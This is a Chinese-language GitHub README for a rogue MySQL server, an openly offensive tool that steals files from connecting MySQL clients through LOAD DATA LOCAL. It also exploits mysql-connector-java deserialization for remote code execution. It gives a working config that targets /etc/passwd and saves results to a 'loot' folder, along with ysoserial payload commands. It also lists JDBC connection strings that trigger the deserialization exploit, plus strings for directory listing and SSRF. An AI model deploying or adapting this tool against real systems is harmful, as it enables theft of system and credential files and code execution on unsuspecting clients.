 # Rogue Mysql Server

[English README](./README_EN.md)

基于 https://github.com/vitessio/vitess 实现的恶意 mysql 服务器, 支持 go, php, python, java, 原生命令行等多种语言下的多种库的 mysql 客户端.  
远离恼人的兼容性问题, 测试过的客户端见下表

| language | library                        | pass |
|----------|--------------------------------|------|
| go       | github.com/go-sql-driver/mysql | ✔️   |
| php      | mysqli, pdo                    | ✔️   |
| python   | pymysql                        | ✔️   |
| java     | mysql-connector-java           | ✔️   |
| native   | 10.4.13-MariaDB                | ✔️   |

觉得好用可以点右上方的 🌟 支持作者

## 功能

* 可以兼容多种 mysql 客户端
* 可以读取二进制文件
* 自动保存文件
* 作为蜜罐使用时, 可选择开启帐号密码验证
* 读取客户端的 ConnAttr, 可能会包含一些客户端的额外信息
* 对于 mysql-connector-java, 在可控链接串的情况下可以利用反序列化漏洞进行 RCE

## 使用

在当前目录下生成配置文件模版, 如果已有配置文件可以跳过这一步
```sh
./rogue_mysql_server -generate
```

运行服务器, 使用刚刚生成的 config.yaml
```sh
./rogue_mysql_server
```

或者手动指定配置路径
```sh
./rogue_mysql_server -config other_config.yaml
```

## 配置文件

示例:
```yaml
host: 0.0.0.0
port: 3306
# 监听的 IP 和端口.

version_string: "10.4.13-MariaDB-log"
# 客户端得到的服务端版本信息.

file_list: ["/etc/passwd", "C:/boot.ini"]
save_path: ./loot
# 需要读取的文件, 注意这个不意味着一次性读取列表中的所有文件 (很多客户端实现不支持这种操作).
# 而是客户端每执行一次语句, 按照列表中的顺序读取一个文件, 并保存到 `save_path` 文件夹中.

always_read: true
# 如果为 true, 那么不管客户端是否标记自己支持 LOAD DATA LOCAL, 都会尝试去读取文件, 否则会根据客户端的标记来决定是否读取, 避免客户端请求不同步.

from_database_name: false
# 如果为 true, 将会从客户端设定中的数据库名称中提取要读取的文件.
# 例如链接串为 `jdbc:mysql://localhost:3306/%2fetc%2fhosts?allowLoadLocalInfile=true`.
# 将会从客户端读取 `/etc/hosts` 而不会遵循 `file_list` 中的设置.

max_file_size: 0
# 读取文件的最大大小 (单位 byte), 超过这个大小的文件内容将会被忽略. 如果 <= 0, 代表没有限制.

auth: false
users:
  - root: root
  - root: password
# 对应是否开启验证, 如果为 `false`, 那么不管输什么密码或者不输入密码都可以登录.
# 如果为 `true`, 则需要帐号密码匹配下面的设置的帐号密码中的一条.

jdbc_exploit: false
always_exploit: false
ysoserial_command:
  cc4: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections4", 'touch /tmp/cc4']
  cc7: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections7", 'touch /tmp/cc7']
# 见 `jdbc 利用相关` 一节
```

## mysql-connector-java 反序列化漏洞利用相关

在版本 >= 8.0.20, >= 5.1.49 中, 此漏洞已经被修复,  
https://github.com/mysql/mysql-connector-j/commit/de7e1af306ffbb8118125a865998f64ee5b35b1b  
https://github.com/mysql/mysql-connector-j/commit/13f06c38fb68757607c460789196e3f798d506f2

与 mysql-connector-java 反序列化漏洞利用相关的配置如下
```yaml
jdbc_exploit: false
always_exploit: false
ysoserial_command:
  cc4: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections4", 'touch /tmp/cc4']
  cc7: ["java", "-jar", "ysoserial-0.0.6-SNAPSHOT-all.jar", "CommonsCollections7", 'touch /tmp/cc7']
```
`jdbc_exploit` 代表这个功能开启, 在检测到客户端是 mysql-connector-j 的情况下会自动利用. 利用和读取文件只能同时开启一项, 开启利用会导致无法读取客户端的文件.  
`always_exploit` 代表不检测客户端是否为 mysql-connector-java, 总是开启漏洞利用.  
`ysoserial_command` 生成反序列化 payload 的命令.  

可以使用连接串中的 `connectionAttributes` 选项来指定需要使用的 payload, 这个选项可以指定任意连接属性. 服务器会读取连接属性中 `t` 的值来寻找对应的 payload. 如果未指定, 则默认使用提供的所有 payload 中的第一个.  

例如, 如果使用上述的示例配置:  
在 8.x 版本下要使用 cc7, 连接串为 `jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:cc7&autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password`

另外需要注意只支持 `com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor` 的利用方法, 可以参考下表:  

| version  | jdbc connection string                                                                                                                                                                                   |
|----------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 8.x      | jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:{payload_name}&autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password     |
| 6.x      | jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:{payload_name}&autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password |
| >=5.1.11 | jdbc:mysql://127.0.0.1:3306/test?connectionAttributes=t:{payload_name}&autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password    |

另外如果需要读文件, mysql-connector-java 支持使用 `file://` 列目录 (当然其他协议, 例如 http 来 SSRF 也是可以的), 但是需要在 `allowLoadLocalInfile` 为 true 之外, 额外指定 `allowUrlInLocalInfile` 为 true, 详情见[这里](https://github.com/mysql/mysql-connector-j/blob/dd61577595edad45c398af508cf91ad26fc4144f/src/main/protocol-impl/java/com/mysql/cj/protocol/a/NativeProtocol.java#L1877)  
E.g.
* 列 `/` 目录, `jdbc:mysql://127.0.0.1:3306/file%3A%2F%2F%2F?allowLoadLocalInfile=true&allowUrlInLocalInfile=true`
* SSRF `http://127.0.0.1:25565`, `jdbc:mysql://127.0.0.1:3306/http%3A%2F%2F127.0.0.1:25565?allowLoadLocalInfile=true&allowUrlInLocalInfile=true`


## Ref

mysql-connector-java 漏洞利用:  
https://github.com/fnmsd/MySQL_Fake_Server

mysql 协议相关:  
https://github.com/mysql/mysql-connector-j  
https://github.com/vitessio/vitess  
https://github.com/src-d/go-mysql-server  
http://scz.617.cn:8/network/202001101612.txt  
